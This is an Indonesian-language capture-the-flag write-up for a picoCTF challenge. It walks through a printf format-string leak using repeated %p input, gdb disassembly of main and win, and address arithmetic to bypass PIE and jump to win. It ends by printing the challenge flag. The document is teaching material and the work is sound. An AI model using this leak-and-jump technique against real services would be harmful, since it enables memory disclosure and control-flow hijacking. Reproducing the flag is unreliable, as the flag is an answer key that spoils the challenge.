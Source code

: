 Author: Darkraicg492
Description
Can you try to get the flag? I'm not revealing anything anymore!!
Additional details will be available after launching your challenge instance.

Skills gained: Jumping address exploit, format string vurnerability

1. jalankan instance dan masukka nc ke terminal dan download juga file source code dan binarynya
2. ketika menjalankan nc pada terminal, terdapat input untuk memasukkan username dan sesudah itu input lompat address. Sepertinya disini kelemahannya adalah format string vurnerability
3. Buka vuln.c dengan ide atau note apapun
4. ya terdapat jelas kode vurnerability pada

	char buffer[64];
 	printf("Enter your name:");
  	fgets(buffer, 64, stdin);
  	printf(buffer);

5. Kenapa itu bisa menjadi kelemahan/vurnerability disini? karena printf(buffer) tidak melakukan print string secara eksplisit yang seharusnya untuk aman adalah "%s"
6. disini sudah jelas kelemahan dan tujuannya (kita harus lompat ke fungsi win) tapi.. gimana cara mencari address alamat main dan win nya?
7. untuk sekarang Buka binary tersebut dengan ghidra atau cutter atau objdump atau gdb untuk mengecek alamat addres addres ini
	
 	gdb:

		(gdb) disas main

		Dump of assembler code for function main:
   		0x0000555555555400 <+0>:	endbr64
   		0x0000555555555404 <+4>:	push   %rbp
   		0x0000555555555405 <+5>:	mov    %rsp,%rbp
   		0x0000555555555408 <+8>:	lea    -0x166(%rip),%rsi        # 0x5555555552a9 <segfault_handler>
	  	0x000055555555540f <+15>:	mov    $0xb,%edi
	  	0x0000555555555414 <+20>:	call   0x555555555170 <signal@plt>
	  	0x0000555555555419 <+25>:	mov    0x2bf0(%rip),%rax        # 0x555555558010 <stdout@@GLIBC_2.2.5>
	  	0x0000555555555420 <+32>:	mov    $0x0,%ecx
	  	0x0000555555555425 <+37>:	mov    $0x2,%edx
	  	0x000055555555542a <+42>:	mov    $0x0,%esi
	  	0x000055555555542f <+47>:	mov    %rax,%rdi
	  	0x0000555555555432 <+50>:	call   0x555555555180 <setvbuf@plt>
		0x0000555555555437 <+55>:	mov    $0x0,%eax
	  	0x000055555555543c <+60>:	call   0x5555555552c7 <call_functions>
	  	0x0000555555555441 <+65>:	mov    $0x0,%eax
		0x0000555555555446 <+70>:	pop    %rbp
	  	0x0000555555555447 <+71>:	ret

10. alamat untuk main adalah 400, sekarang bagian alamat win nya
	
 	gdb:
	
	 	(gdb) disas win
		Dump of assembler code for function win:
	   		0x000055555555536a <+0>:	endbr64
	   		0x000055555555536e <+4>:	push   %rbp
	   		0x000055555555536f <+5>:	mov    %rsp,%rbp
	   		0x0000555555555372 <+8>:	sub    $0x10,%rsp
	   		0x0000555555555376 <+12>:	lea    0xcf6(%rip),%rdi        # 0x555555556073
	   		...
	   		...

12. oke, alamat untuk win adalah 36a. Alamat win dan mainnya sudah ketemu tapi.. sekarang gimana cara kita melompatinya? untuk melompati ini membutuhkan offset dari pengurangan alamat main dengan alamat win
13. dengan cara
	python3 -c "print(hex(0x0000555555555400 - 0x000055555555536a))"
	hasilnya: 0x96

14. et tapi.. kita harus memastikan dulu apakah alamat win atau main dari nc picoctf ini sama atau beda?, kita bisa memastikan dengan cara mengisi %p sebanyak lebih dari 20 kali (%p ini adalah format hexadecimal memory address)
	hasilnya:
	
	 	Enter your name:%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
		0x5d94123332a1(nil).0x5d94123332dd.0x7ffd34a32430.0x7c.0x7ffd34b20228.0x7ec4492206a0.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0xa2e70252e.0x5d940be581c0.0x307e03c48e7fa100.0x7ffd34a32490.0x5d940be58441.(nil).
	 	enter the address to jump to, ex => 0x12345: ^C

13. dan ternyata hasil dari main yang dipanggil dalam nc itu adalah 441 dan bukan 400, sekarang kita mengurangi 441 - 36a
	
		python3 -c "print(hex(0x441 - 0x36a))"             
		hasilnya: 0xd7

14. sesudah itu kita kurangi 441 dengan 0xd7 yang dari nc itu 
	contoh dariku:

		python3 -c "print(hex(0x5e0ab77a2441 - 0xd7))"
		hasilnya: 0x5e0ab77a236a

16. dan hasilnya seperti ini:
	nc rescued-float.picoctf.net 54031
	
 		Enter your name:%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
		0x5e0abd1102a1(nil).0x5e0abd1102dd.0x7ffc19153af0.0x7c.0x7ffc1915e228.0x753d1ff9f6a0.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0xa2e70252e.0x5e0ab77a21c0.0xa73378bb7a919100.0x7ffc19153b50.0x5e0ab77a2441.(nil).
 		enter the address to jump to, ex => 0x12345: 
		0x5e0ab77a236a
		You won!
		picoCTF{p13_5h0u1dn'7_134k_1ef23143}

# Flag
flag: picoCTF{p13_5h0u1dn'7_134k_1ef23143}
